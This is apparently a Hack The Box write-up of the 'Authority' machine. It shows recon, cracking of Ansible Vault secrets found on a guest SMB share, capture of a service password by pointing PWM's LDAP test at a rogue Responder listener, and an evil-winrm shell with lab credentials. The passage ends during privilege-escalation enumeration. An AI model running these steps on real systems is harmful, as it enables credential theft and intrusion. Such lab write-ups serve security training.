

import AsciinemaPlayer from '@site/src/components/AsciinemaPlayer';


## At a Glance

My journey through Authority began with a standard reconnaissance phase that uncovered an Active Directory environment exposing both a Password Self-Service (PWM) instance and a readable SMB share. Digging through Ansible playbooks found on the share, I recovered encrypted Ansible Vault credentials. After cracking these, I accessed the PWM configuration and exploited its LDAP test functionality to capture a service account's cleartext password. This gave me an initial shell via WinRM. I then leveraged a vulnerable AD CS certificate template (ESC1) to add my user into the Administrators group and seize full control.

---

## Enumeration & Reconnaissance

### Nmap Scan

I start with a standard `nmap` scan to identify open ports and services.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ sudo nmap -sC -sV 10.129.229.56
[sudo] password for m4ias7ru: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-21 09:30 EST
Nmap scan report for authority.htb.corp (10.129.229.56)
Host is up (0.047s latency).
Not shown: 986 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-12-21 18:30:15Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-12-21T18:31:04+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-12-21T18:31:05+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-12-21T18:31:04+00:00; +4h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2025-12-21T18:31:05+00:00; +4h00m01s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8443/tcp open  ssl/http      Apache Tomcat (language: en)
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2025-12-19T13:23:02
|_Not valid after:  2027-12-22T01:01:26
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
|_ssl-date: TLS randomness does not represent time
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-12-21T18:30:57
|_  start_date: N/A
|_clock-skew: mean: 4h00m00s, deviation: 0s, median: 4h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.32 seconds
```

The output confirms a Domain Controller setup. While the standard AD ports are expected, the presence of port 80 and port 8443 suggested potential web entry points. I added `authority.htb` to my `/etc/hosts` file and moved to investigate.

### HTTP - TCP 80

I first navigate to the standard HTTP port to see what is being hosted.


It is a default IIS splash page. I'll do a quick fuzz for directories using `ffuf` to see if anything is hidden.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ ffuf -u http://authority.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://authority.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

# directory-list-2.3-medium.txt [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 54ms]
# Copyright 2007 James Fisher [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 55ms]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 59ms]
# on at least 2 different hosts [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 58ms]
                        [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 59ms]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 63ms]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 64ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 64ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 63ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 64ms]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 73ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 74ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 77ms]
#                       [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 78ms]
                        [Status: 200, Size: 703, Words: 27, Lines: 32, Duration: 70ms]
:: Progress: [220559/220559] :: Job [1/1] :: 680 req/sec :: Duration: [0:06:42] :: Errors: 0 ::
```

:::info[Fun Fact]
Ffuf stands for "Fuzz Faster U Fool." Funny, right? No? Anyway, let's continue.
:::

The scan returned absolutely nothing. Most likely a rabbit hole, so I'll move my attention to the non-standard HTTPS port.

### HTTPS - TCP 8443

Port 8443 is much more interesting. It hosts [PWM](https://github.com/pwm-project/pwm), an open-source password self-service application.


The landing page displays a notice and offers options for "Configuration Manager" and "Configuration Editor". 


Accessing these requires a password.

Navigating further, I clicked on the dropdown button and saw a message that said "PWM is in open configuration mode and is not secure." I also saw the `2.0.3` version of the service, after further research, I found that it was not vulnerable, so I moved on, noting it as a high-priority target to return to later.


### SMB - TCP 445

With the web app requiring credentials, I turn to SMB to check for unauthorized access or information leaks. I'll use `nxc` to list shares with a guest account.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ nxc smb 10.129.229.56 -u 'guest' -p '' --shares
SMB         10.129.229.56   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.56   445    AUTHORITY        [+] authority.htb\guest: 
SMB         10.129.229.56   445    AUTHORITY        [*] Enumerated shares
SMB         10.129.229.56   445    AUTHORITY        Share           Permissions     Remark
SMB         10.129.229.56   445    AUTHORITY        -----           -----------     ------
SMB         10.129.229.56   445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.129.229.56   445    AUTHORITY        C$                              Default share
SMB         10.129.229.56   445    AUTHORITY        Department Shares                 
SMB         10.129.229.56   445    AUTHORITY        Development     READ            
SMB         10.129.229.56   445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.129.229.56   445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.129.229.56   445    AUTHORITY        SYSVOL                          Logon server share
```

I see that the Development share allows guest read access. I'll connect to the share to see what's inside.

```plaintext {1,2,5,11,12,18,19}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]                                                                                  
└─$ smbclient -U 'guest' //10.129.229.56/Development                                                                       
Password for [WORKGROUP\guest]:                                                                                            
Try "help" to get a list of possible commands.                                                                             
smb: \> ls                                                                                                                 
  .                                   D        0  Fri Mar 17 09:20:38 2023                                                 
  ..                                  D        0  Fri Mar 17 09:20:38 2023                                                 
  Automation                          D        0  Fri Mar 17 09:20:40 2023                                                 
                                                                                                                           
                5888511 blocks of size 4096. 1488124 blocks available                                                      
smb: \> cd Automation\                                                                                                     
smb: \Automation\> ls                                                                                                      
  .                                   D        0  Fri Mar 17 09:20:40 2023                                                 
  ..                                  D        0  Fri Mar 17 09:20:40 2023                                                 
  Ansible                             D        0  Fri Mar 17 09:20:50 2023                                                 
                                                                                                                           
                5888511 blocks of size 4096. 1488124 blocks available                                                      
smb: \Automation\> cd Ansible\                                                                                             
smb: \Automation\Ansible\> ls                                                                                              
  .                                   D        0  Fri Mar 17 09:20:50 2023                                                 
  ..                                  D        0  Fri Mar 17 09:20:50 2023                                                 
  ADCS                                D        0  Fri Mar 17 09:20:48 2023                                                 
  LDAP                                D        0  Fri Mar 17 09:20:48 2023                                                 
  PWM                                 D        0  Fri Mar 17 09:20:48 2023                                                 
  SHARE                               D        0  Fri Mar 17 09:20:48 2023                                                 
                                                                                                                           
                5888511 blocks of size 4096. 1488124 blocks available                                                      
```

Interesting, an Automation folder containing Ansible playbooks.

```plaintext {1,2,3}
smb: \Automation\Ansible\> prompt OFF                                                                                      
smb: \Automation\Ansible\> recurse ON                                                                                      
smb: \Automation\Ansible\> mget *                                                                                          
getting file \Automation\Ansible\ADCS\.ansible-lint of size 259 as ADCS/.ansible-lint (1.4 KiloBytes/sec) (average 1.4 Kilo
Bytes/sec)
<SNIP>
```

I download the entire Ansible directory. These files likely contain the configuration details for the PWM service I just saw.

---

## User Compromise

### Cracking Ansible Vaults

Let's see what I got here.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ tree .
.
├── ADCS
│   ├── defaults
│   │   └── main.yml
│   ├── LICENSE
│   ├── meta
│   │   ├── main.yml
│   │   └── preferences.yml
│   ├── molecule
│   │   └── default
│   │       ├── converge.yml
│   │       ├── molecule.yml
│   │       └── prepare.yml
│   ├── README.md
│   ├── requirements.txt
│   ├── requirements.yml
│   ├── SECURITY.md
│   ├── tasks
│   │   ├── assert.yml
│   │   ├── generate_ca_certs.yml
│   │   ├── init_ca.yml
│   │   ├── main.yml
│   │   └── requests.yml
│   ├── templates
│   │   ├── extensions.cnf.j2
│   │   └── openssl.cnf.j2
│   ├── tox.ini
│   └── vars
│       └── main.yml
├── LDAP
│   ├── defaults
│   │   └── main.yml
│   ├── files
│   │   └── pam_mkhomedir
│   ├── handlers
│   │   └── main.yml
│   ├── meta
│   │   └── main.yml
│   ├── README.md
│   ├── tasks
│   │   └── main.yml
│   ├── templates
│   │   ├── ldap_sudo_groups.j2
│   │   ├── ldap_sudo_users.j2
│   │   ├── sssd.conf.j2
│   │   └── sudo_group.j2
│   ├── TODO.md
│   ├── Vagrantfile
│   └── vars
│       ├── debian.yml
│       ├── main.yml
│       ├── redhat.yml
│       └── ubuntu-14.04.yml
├── PWM
│   ├── ansible.cfg
│   ├── ansible_inventory
│   ├── defaults
│   │   └── main.yml
│   ├── handlers
│   │   └── main.yml
│   ├── meta
│   │   └── main.yml
│   ├── README.md
│   ├── tasks
│   │   └── main.yml
│   └── templates
│       ├── context.xml.j2
│       └── tomcat-users.xml.j2
└── SHARE
    └── tasks
        └── main.yml

25 directories, 46 files
```

I'll use `grep` to hunt for any mentions of passwords.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]                                                                                  
└─$ grep -Rni "pass" .                                                                                                     
./PWM/defaults/main.yml:19:pwm_admin_password: !vault |                                                                    
./PWM/defaults/main.yml:29:ldap_admin_password: !vault |
./PWM/ansible_inventory:2:ansible_password: Welcome1
./PWM/README.md:23:- pwm_root_mysql_password: root mysql password, will be set to a random value by default.
./PWM/README.md:24:- pwm_pwm_mysql_password: pwm mysql password, will be set to a random value by default.
./PWM/README.md:26:- pwm_admin_password: pwm admin password, 'password' by default.
./PWM/templates/tomcat-users.xml.j2:7:<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>  
./PWM/templates/tomcat-users.xml.j2:8:<user username="robot" password="T0mc@tR00t" roles="manager-script"/>
./ADCS/defaults/main.yml:11:# A passphrase for the CA key.                                                                 
./ADCS/defaults/main.yml:12:ca_passphrase: SuP3rS3creT                                                                     
./ADCS/defaults/main.yml:29:#     passphrase: S3creT                                                                       
./ADCS/defaults/main.yml:38:#     passphrase: S3creT                                                                       
./ADCS/vars/main.yml:33:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}
./ADCS/vars/main.yml:40:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}
./ADCS/vars/main.yml:48:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }} 
./ADCS/vars/main.yml:56:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}
./ADCS/vars/main.yml:60:  -config {{ ca_openssl_config_file }} -key {{ ca_passphrase }}               
./ADCS/README.md:62:# A passphrase for the CA key.         
./ADCS/README.md:63:ca_passphrase: SuP3rS3creT                                                                             
./ADCS/README.md:80:#     passphrase: S3creT                                                                               
./ADCS/README.md:89:#     passphrase: S3creT                 
./ADCS/tasks/assert.yml:3:- name: Test if ca_passphrase is set correctly
./ADCS/tasks/assert.yml:6:      - ca_passphrase is defined                                                                 
./ADCS/tasks/assert.yml:7:      - ca_passphrase is string                                                                  
./ADCS/tasks/init_ca.yml:45:    passphrase: "{{ ca_passphrase }}"           
./ADCS/tasks/generate_ca_certs.yml:10:    privatekey_passphrase: "{{ ca_passphrase }}"
./ADCS/tasks/generate_ca_certs.yml:33:    privatekey_passphrase: "{{ ca_passphrase }}"
./ADCS/tasks/requests.yml:23:        - name: Generate requested key (passphrase set)                
./ADCS/tasks/requests.yml:26:            passphrase: "{{ request.passphrase }}"
./ADCS/tasks/requests.yml:29:            - request.passphrase is defined                                                   ./ADCS/tasks/requests.yml:31:        - name: Generate requested key (passphrase not set)
./ADCS/tasks/requests.yml:35:            - request.passphrase is not defined                         
./ADCS/tasks/requests.yml:44:        privatekey_passphrase: "{{ request.passphrase | default(omit) }}"
./ADCS/tox.ini:25:passenv = namespace image tag DOCKER_HOST                                                                ./ADCS/templates/openssl.cnf.j2:83:preserve     = no                    # keep passed DN ordering
./ADCS/templates/openssl.cnf.j2:119:# Passwords for private keys if not present they will be prompted for
./ADCS/templates/openssl.cnf.j2:120:# input_password = secret
./ADCS/templates/openssl.cnf.j2:121:# output_password = secret                                          
./ADCS/templates/openssl.cnf.j2:165:challengePassword           = A challenge password
./ADCS/templates/openssl.cnf.j2:166:challengePassword_min               = 4                                                ./ADCS/templates/openssl.cnf.j2:167:challengePassword_max               = 20
./LDAP/defaults/main.yml:5:system_ldap_allow_passwordauth_in_sshd: false                                                   ./LDAP/defaults/main.yml:12:system_ldap_bind_password:                                                                     
./LDAP/.bin/clean_vault:2:# Just print out the secrets file as-is if the password file doesn't exist                       ./LDAP/.bin/clean_vault:3:if [ ! -r '.vault_password' ]; then                                                              ./LDAP/.bin/clean_vault:11:    RESULT="$(echo "$CONTENT" | ansible-vault encrypt - --vault-password-file=.vault_password 2>
&1 1>&$OUT)";                                                
./LDAP/.bin/smudge_vault:2:# Just print out the secrets file as-is if the password file doesn't exist
./LDAP/.bin/smudge_vault:3:if [ ! -r '.vault_password' ]; then      
./LDAP/.bin/smudge_vault:11:    RESULT="$(echo "$CONTENT" | ansible-vault decrypt - --vault-password-file=.vault_password 2
>&1 1>&$OUT)";                                                                                                             
./LDAP/.bin/diff_vault:2:# Just print out the secrets file as-is if the password file doesn't exist
./LDAP/.bin/diff_vault:3:if [ ! -r '.vault_password' ]; then                                                               
./LDAP/.bin/diff_vault:9:CONTENT="$(ansible-vault view "$1" --vault-password-file=.vault_password 2>&1)"
./LDAP/Vagrantfile:18:    ansible.vault_password_file = ".vault_password"
./LDAP/README.md:24:|`system_ldap_bind_password`|`sunrise`|The authentication token of the default bind DN. Only clear text
 passwords are currently supported.|                                                                                       
./LDAP/README.md:27:|`system_ldap_access_filter_users`|`- hoshimiya.ichigo`<br />`- nikaidou.yuzu`|List of usernames (passe
d to the filter `(sAMAccountName=%s)` by default) authorized to access the current host.|
./LDAP/README.md:30:|`system_ldap_allow_passwordauth_in_sshd`|`true`|Specifies whether to configure `sshd_config` to allow 
password authentication for authorized users. This is needed if your SSHD is configured to not allow password authenticatio
n by default. Defaults to `false`.|                       
./LDAP/README.md:71:    system_ldap_bind_password: sunrise                                                                 ./LDAP/README.md:85:Here we're using a search user account and password (`system_ldap_bind_*`) to 
./LDAP/README.md:92:    system_ldap_allow_passwordauth_in_sshd: true                              
./LDAP/tasks/main.yml:34:    - passwd                     
./LDAP/tasks/main.yml:48:- name: Query SSSD in pam.d/password-auth                                                         ./LDAP/tasks/main.yml:50:    dest: /etc/pam.d/password-auth
./LDAP/tasks/main.yml:58:        line: "auth        sufficient    pam_sss.so use_first_pass" }
./LDAP/tasks/main.yml:65:    - { before: "^password.*pam_deny.so",   
./LDAP/tasks/main.yml:66:        regexp: "^password.*pam_sss.so",                      
./LDAP/tasks/main.yml:67:        line: "password    sufficient    pam_sss.so use_authtok" }
./LDAP/tasks/main.yml:86:        line: "auth        sufficient    pam_sss.so use_first_pass" }                             ./LDAP/tasks/main.yml:93:    - { before: "^password.*pam_deny.so",
./LDAP/tasks/main.yml:94:        regexp: "^password.*pam_sss.so",    
./LDAP/tasks/main.yml:95:        line: "password    sufficient    pam_sss.so use_authtok" }
./LDAP/tasks/main.yml:139:- name: Allow/Disallow password authentication in SSHD config for users
./LDAP/tasks/main.yml:145:      PasswordAuthentication yes
./LDAP/tasks/main.yml:147:    state: "{{ 'present' if system_ldap_allow_passwordauth_in_sshd and system_ldap_access_filter_
users else 'absent' }}"
./LDAP/tasks/main.yml:151:- name: Allow/Disallow password authentication in SSHD config for groups
./LDAP/tasks/main.yml:157:      PasswordAuthentication yes
./LDAP/tasks/main.yml:159:    state: "{{ 'present' if system_ldap_allow_passwordauth_in_sshd and system_ldap_access_unix_gr
oups else 'absent' }}"
./LDAP/templates/sssd.conf.j2:6:chpass_provider = ldap
./LDAP/templates/sssd.conf.j2:19:ldap_default_authtok_type = password
./LDAP/templates/sssd.conf.j2:20:ldap_default_authtok = {{ system_ldap_bind_password }}
./LDAP/.travis.yml:29:  - echo "$VAULT_PASSWORD" > .vault_password
./LDAP/.travis.yml:33:  - ansible-playbook tests/travis.yml -i localhost, --vault-password-file .vault_password --syntax-ch
eck
./LDAP/TODO.md:1:- Change LDAP admin password after build -[COMPLETE]
```


We see a PWM directory, we have PWM on port 8443 so this is the most likely target right now.

The `/PWM/templates/tomcat-users.xml.j2` file contains two sets of credentials, `admin:T0mc@tAdm1n` and `robot:T0mc@tR00t`, but neither work for PWM and the Tomcat manager is not exposed.

Inside `/PWM/defaults/main.yml`, I found encrypted credentials.


The !vault tag indicates that the secrets are encrypted with `Ansible Vault`. I need the vault password to see them.

I'll extract the encrypted blocks and use `vim` to strip out the formatting, using `:%s/ //g` to remove all spaces

<AsciinemaPlayer 
  src="https://asciinema.org/a/763315.cast" 
  rows={20} 
  idleTimeLimit={2} 
  preload={true}
/>

I then use `ansible2john.py` to turn these into a format that `hashcat` can crack.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ python3 /usr/share/john/ansible2john.py pwm_admin_login pwm_admin_password ldap_admin_password
pwm_admin_login:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
pwm_admin_password:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5
ldap_admin_password:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635
```

I'll run `hashcat` with the rockyou.txt wordlist.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]                                                                                          
└─$ hashcat --username ansibleHashes /usr/share/wordlists/rockyou.txt                                                              
hashcat (v7.1.2) starting in autodetect mode 

$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22
809393b1767055a66deae678f4a8b1f8550905f70da5:!@#$%^&*
$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647
c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8:!@#$%^&*
$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73
ad5d8804b4b2511c3b15814ebcf2fe98334284203635:!@#$%^&*
                                                           
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16900 (Ansible Vault)
Hash.Target......: ansibleHashes 
Time.Started.....: Sun Dec 21 13:33:29 2025 (24 secs)
Time.Estimated...: Sun Dec 21 13:33:53 2025 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%) 
Speed.#01........:     5033 H/s (12.82ms) @ Accel:192 Loops:1000 Thr:1 Vec:16
Recovered........: 3/3 (100.00%) Digests (total), 3/3 (100.00%) Digests (new), 3/3 (100.00%) Salts
Progress.........: 119808/43033155 (0.28%)
Rejected.........: 0/119808 (0.00%)
Restore.Point....: 39168/14344385 (0.27%)
Restore.Sub.#01..: Salt:2 Amplifier:0-1 Iteration:9000-9999
Candidate.Engine.: Device Generator
Candidates.#01...: luvhim -> prospect
Hardware.Mon.#01.: Util: 87%

Started: Sun Dec 21 13:32:29 2025
Stopped: Sun Dec 21 13:33:54 2025
```

:::info[Vault Cracked]
The vault password is `!@#$%^&*`. Using this key, I'll decrypt the vault files to reveal the service credentials.
:::

```plaintext {1,2,5,6,11,12,17,18}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ ls   
ADCS  ansibleHashes  ansibleVaults.cast  LDAP  ldap_admin_password  PWM  pwm_admin_login  pwm_admin_password  SHARE
                                                                                                                                   
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ cat pwm_admin_login | ansible-vault decrypt
Vault password: 
Decryption successful
svc_pwm                                                                                                                                   

┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ cat pwm_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
pWm_@dm!N_!23                                                                                                                                   

┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ cat ldap_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
DevT3st@123
```

:::info[Decrypted Secrets]
I recovered the PWM admin login: `svc_pwm:pWm_@dm!N_!23` and the LDAP admin password:`DevT3st@123`.
:::

### PWM Access

#### Configuration Manager

I head back to the web application on port 8443. I attempt to log in to the Configuration Manager with the svc_pwm credentials, and it works.


#### Configuration Editor

The credentials also grant me access to the Configuration Editor. 


#### Capture LDAP Credentials

While poking around the LDAP settings, I notice that the application can test its connection to a Domain Controller. I realize that if I can point this connection to my own machine, the application might send its authentication credentials directly to me. I'll modify the LDAP URL to point to my attacker machine IP, using `ldap://` on port 389.


Now, I'll configure a rogue LDAP listener using `Responder` and then trigger the "Test LDAP Profile" button.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ sudo responder -I tun0 -A                                    
[sudo] password for m4ias7ru:                                    
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
                                                                 
                                                                 
[+] Poisoners:                                                   
    LLMNR                      [OFF]   
    NBT-NS                     [OFF]                     
    MDNS                       [OFF]     
    DNS                        [ON]     
    DHCP                       [OFF]
                                
[+] Servers:                                                     
    HTTP server                [ON]        
    HTTPS server               [ON]   
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]                
    Kerberos server            [ON]                        
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]                        
    SMTP server                [ON]                                                                                                
    DNS server                 [ON]                                                                                                
    LDAP server                [ON]                                                                                                
    MQTT server                [ON]      
    RDP server                 [ON]                                                                                                
    DCE-RPC server             [ON]           
    WinRM server               [ON]                                                                                                
    SNMP server                [ON]
    
[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [ON]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.179]
    Responder IPv6             [dead:beef:2::10b1]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-UYF33Z5U65G]
    Responder Domain Name      [FG5D.LOCAL]
    Responder DCE-RPC Port     [48429]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[Analyze mode: ICMP] You can ICMP Redirect on this network.
[Analyze mode: ICMP] This workstation (10.10.14.179) is not on the same subnet than the DNS server (192.168.91.2).
[Analyze mode: ICMP] Use `python tools/Icmp-Redirect.py` for more details.
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[LDAP] Cleartext Client   : 10.129.229.56
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

:::info[Credentials Captured]
It worked! I got a new set of credentials, `svc_ldap:lDaP_1n_th3_cle4r!`
:::

### WinRM Shell

With a set of Active Directory credentials in hand, I know that WinRM port is open, so I'll try to get a shell.

```plaintext {1,2,11}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd ../Desktop ; type user.txt
d76ef5b6************************
```

And now I have officially established a foothold and secured the user flag.

---

## Privilege Escalation

### Enumeration

Let's see the privileges!

```plaintext {1}
*Evil-WinRM* PS C:\Users\svc_ldap> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

I see that I have `SeMachineAccountPrivilege`, which is powerful for domain-level attacks as it allows me to add computers to the domain.

I'll keep looking around.

```plaintext {1}
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/23/2023   6:16 PM                Certs
d-----        3/28/2023   1:59 PM                Department Shares
d-----        3/17/2023   9:20 AM                Development
d-----         8/9/2022   7:00 PM                inetpub
d-----        3/24/2023   8:22 PM                PerfLogs
d-r---        3/25/2023   1:20 AM                Program Files
d-----        3/25/2023   1:19 AM                Program Files (x86)
d-----        4/23/2023   6:23 PM                pwm
